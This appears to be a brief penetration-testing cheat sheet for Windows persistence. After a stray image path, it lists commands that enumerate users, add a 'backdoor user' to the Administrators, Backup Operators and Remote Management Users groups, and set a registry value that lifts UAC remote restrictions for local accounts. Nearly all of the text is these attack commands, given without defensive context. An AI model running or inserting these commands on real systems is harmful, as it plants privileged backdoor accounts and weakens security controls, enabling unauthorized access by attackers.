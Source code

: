 List users

> net user

Add user to administrators.

> net localgroup administrators <username> /add

Add to backup users.

> Net localgroup "Backup Operators" <username> /add

Add to Remote Management Users

> net localgroup "Remote Management Users" <username> /add

If there are problems with the backdoor user you can disable UAC.

> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /t REG_DWORD /v LocalAccounttokenFilterPolicy /d 1



